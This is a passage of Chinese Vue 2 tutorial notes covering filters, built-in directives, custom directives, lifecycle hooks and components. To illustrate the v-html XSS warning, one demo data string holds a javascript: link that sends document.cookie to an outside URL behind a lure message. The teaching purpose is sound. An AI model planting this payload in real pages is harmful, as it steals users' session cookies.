	Vue.filter('mySlice',function(value){
		return value.slice(0,4)
	})

	new Vue({
		el:'#root',
		data:{
			time:1621561377603, //时间戳
			msg:'你好，浙大'
		},
		computed: {
			fmtTime(){
				return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
			}
		},
		methods: {
			getFmtTime(){
				return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
			}
		},
		//局部过滤器
		filters:{
			timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
				// console.log('@',value)
				return dayjs(value).format(str)
			}
		}
	})

	new Vue({
		el:'#root2',
		data:{
			msg:'hello,atguigu!'
		}
	})
</script>
```
## 15.内置指令
**v-text指令**：

1.作用：向其所在的节点中渲染文本内容。

2.与插值语法的区别：v-text会替换掉节点中的内容，{&#8203;{xx}}则不会。

**v-html指令**：

  1.作用：向指定节点中渲染包含html结构的内容。

  2.与插值语法的区别：

     (1).v-html会替换掉节点中所有的内容，{&#8203;{xx}}则不会。
    
     (2).v-html可以识别html结构。

  3.严重注意：v-html有安全性问题！！！！

     (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
    
     (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

**v-cloak指令**（没有值）：

    1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
    
    2.使用css配合v-cloak可以解决网速慢时页面展示出{&#8203;{xxx}}的问题。

**v-once指令**：

   1.v-once所在节点在初次动态渲染后，就视为静态内容了。

   2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

**v-pre指令**：

    1.跳过其所在节点的编译过程。
    
    2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
<div id="root">
  <div v-text="name"></div>
  <div v-text="str"></div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
  <h2 v-pre>该节点没有指令语法,没有插值语法,可跳过编译</h2>
</div>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      n:1,
      name:'浙大',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```
## 16.自定义指令
需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。

需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。

自定义指令总结：

  一、定义语法：

     (1).局部指令：


```vue
new Vue({
  directives:{指令名:配置对象}
})
或
new Vue({
  directives{指令名:回调函数}
})
```

​     (2).全局指令：

         Vue.directive(指令名,配置对象) 或   Vue.directive(指令名,回调函数)

  二、配置对象中常用的3个回调：

     (1).bind：指令与元素成功绑定时调用。
    
     (2).inserted：指令所在元素被插入页面时调用。
    
     (3).update：指令所在模板结构被重新解析时调用。

  三、备注：

     1.指令定义时不加v-，但使用时要加v-；
    
     2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名。

```html
<div id="root">
	<h2>{{name}}</h2>
	<h2>当前的n值是：<span v-text="n"></span></h2>
	<!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
	<h2>放大10倍后的n值是：<span v-big="n"></span></h2>
	<button @click="n++">点我n+1</button>
	<hr/>
	<input type="text" v-fbind:value="n">
</div>

<script type="text/javascript">
	Vue.config.productionTip = false

	//定义全局指令
	/* Vue.directive('fbind',{
		//指令与元素成功绑定时（一上来）
		bind(element,binding){
			element.value = binding.value
		},
		//指令所在元素被插入页面时
		inserted(element,binding){
			element.focus()
		},
		//指令所在的模板被重新解析时
		update(element,binding){
			element.value = binding.value
		}
	}) */

	new Vue({
		el:'#root',
		data:{
			name:'浙大',
			n:1
		},
		directives:{
			//big函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
			/* 'big-number'(element,binding){
				// console.log('big')
				element.innerText = binding.value * 10
			}, */
			big(element,binding){
				console.log('big',this) //注意此处的this是window
				// console.log('big')
				element.innerText = binding.value * 10
			},
			fbind:{
				//指令与元素成功绑定时（一上来）
				bind(element,binding){
					element.value = binding.value
				},
				//指令所在元素被插入页面时
				inserted(element,binding){
					element.focus()
				},
				//指令所在的模板被重新解析时
				update(element,binding){
					element.value = binding.value
				}
			}
		}
	})

</script>
```
## 17.生命周期

:::note 介绍

生命周期又名：生命周期回调函数、生命周期函数、生命周期钩子。

是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数。

生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。

生命周期函数中的this指向是vm 或 组件实例对象。

常用的生命周期钩子：

  1.mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。

  2.beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

关于销毁Vue实例

  1.销毁后借助Vue开发者工具看不到任何信息。

  2.销毁后自定义事件会失效，但原生DOM事件依然有效。

  3.一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。
:::
```html
<div id="root">
  <h2 v-if="a">你好啊</h2>
  <h2 :style="{opacity}">欢迎学习Vue</h2>
  <button @click="stop">点我停止变换</button>
</div>

<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {
      a: false,
      opacity: 1
    },
    methods: {
      stop() {
        this.$destroy()
      }
    },
    //Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
    mounted() {
      console.log('mounted', this)
      setInterval(() => {
        this.opacity -= 0.01
        if (this.opacity <= 0) this.opacity = 1
      }, 16)
    },

    beforeDestroy() {
      clearInterval(this.timer)
      console.log('vm即将驾鹤西游了')
    },
  })

  //通过外部的定时器实现（不推荐）
  /* setInterval(() => {
    vm.opacity -= 0.01
    if(vm.opacity <= 0) vm.opacity = 1
  },16) */
</script>
```
## 18.非单文件组件
### 基本使用
Vue中使用组件的三大步骤：

  一、定义组件(创建组件)

  二、注册组件

  三、使用组件(写组件标签)

一、如何定义一个组件？

   使用Vue.extend(options)创建，其中options和new Vue(options)时传入的那个options几乎一样，但也有点区别；

   区别如下：

     1.el不要写，为什么？ ——— 最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
    
     2.data必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。

   备注：使用template可以配置组件结构。

二、如何注册组件？

    1.局部注册：靠new Vue的时候传入components选项
    
    2.全局注册：靠Vue.component('组件名',组件)

三、编写组件标签：

    `<school></school>`


```html
<div id="root">
  <hello></hello>
  <hr>
  <h1>{{msg}}</h1>
  <hr>
  <!-- 第三步：编写组件标签 -->
  <school></school>
  <hr>
  <!-- 第三步：编写组件标签 -->
  <student></student>
</div>

<div id="root2">
  <hello></hello>
</div>

<script type="text/javascript">
	//第一步：创建school组件
	const school = Vue.extend({
		template:`
			<div class="demo">
				<h2>学校名称：{{schoolName}}</h2>
				<h2>学校地址：{{address}}</h2>
				<button @click="showName">点我提示学校名</button>
			</div>
		`,
		// el:'#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
		data(){
			return {
				schoolName:'浙大',
				address:'杭州'
			}
		},
		methods: {
			showName(){
				alert(this.schoolName)
			}
		},
	})

	//第一步：创建student组件
	const student = Vue.extend({
		template:`
			<div>
				<h2>学生姓名：{{studentName}}</h2>
				<h2>学生年龄：{{age}}</h2>
			</div>
		`,
		data(){
			return {
				studentName:'张三',
				age:18
			}
		}
	})

	//第一步：创建hello组件
	const hello = Vue.extend({
		template:`
			<div>
				<h2>你好啊！{{name}}</h2>
			</div>
		`,
		data(){
			return {
				name:'Tom'
			}
		}
	})

	//第二步：全局注册组件
	Vue.component('hello',hello)

	//创建vm
	new Vue({
		el:'#root',
		data:{
			msg:'你好啊！'
		},
		//第二步：注册组件（局部注册）
		components:{
			school,
			student
		}
	})

	new Vue({
		el:'#root2',
	})
</script>
```
###  几个注意点
1.关于组件名:

   一个单词组成：

      第一种写法(首字母小写)：school
    
      第二种写法(首字母大写)：School

   多个单词组成：

      第一种写法(kebab-case命名)：my-school
    
      第二种写法(CamelCase命名)：MySchool (需要Vue脚手架支持)

   备注：

     (1).组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。
    
     (2).可以使用name配置项指定组件在开发者工具中呈现的名字。

2.关于组件标签:

   第一种写法：`<school></school>`

   第二种写法：`<school/>`

   备注：不用使用脚手架时，`<school/>`会导致后续组件不能渲染。

3.一个简写方式：

   `const school = Vue.extend(options)` 可简写为：`const school = options`

### 组件的嵌套 
```html
<div id="root">

</div>

<script type="text/javascript">
	//定义student组件
	const student = Vue.extend({
		name:'student',
		template:`
			<div>
				<h2>学生姓名：{{name}}</h2>
				<h2>学生年龄：{{age}}</h2>
			</div>
		`,
		data(){
			return {
				name:'浙大',
				age:18
			}
		}
	})

	//定义school组件
	const school = Vue.extend({
		name:'school',
		template:`
			<div>
				<h2>学校名称：{{name}}</h2>
				<h2>学校地址：{{address}}</h2>
				<student></student>
			</div>
		`,
		data(){
			return {
				name:'浙大',
				address:'杭州'
			}
		},
		//注册组件（局部）
		components:{
			student
		}
	})

	//定义hello组件
	const hello = Vue.extend({
		template:`<h1>{{msg}}</h1>`,
		data(){
			return {
				msg:'欢迎来到浙大学习！'
			}
		}
	})

	//定义app组件
	const app = Vue.extend({
		template:`
			<div>
				<hello></hello>
				<school></school>
			</div>
		`,
		components:{
			school,
			hello
		}
	})

	//创建vm
	new Vue({
		template:'<app></app>',
		el:'#root',
		//注册组件（局部）
		components:{app}
	})
</script>
```
###  VueComponent
关于VueComponent:

1. school组件本质是一个名为VueComponent的构造函数，且不是程序员定义的，是Vue.extend生成的。

2. 我们只需要写`<school/>`或`<school></school>`，Vue解析时会帮我们创建school组件的实例对象，即Vue帮我们执行的：`new VueComponent(options)。`

3. 特别注意：每次调用`Vue.extend`，返回的都是一个全新的VueComponent！！！！

4. 关于this指向：

   1. 组件配置中：

      data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【VueComponent实例对象】。

   2. new Vue(options)配置中：
   
      data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。
   
5. VueComponent的实例对象，以后简称vc（也可称之为：组件实例对象）。 Vue的实例对象，以后简称vm。 

一个重要的内置关系：`VueComponent.prototype.__proto__ === Vue.prototype`

为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue原型上的属性、方法。
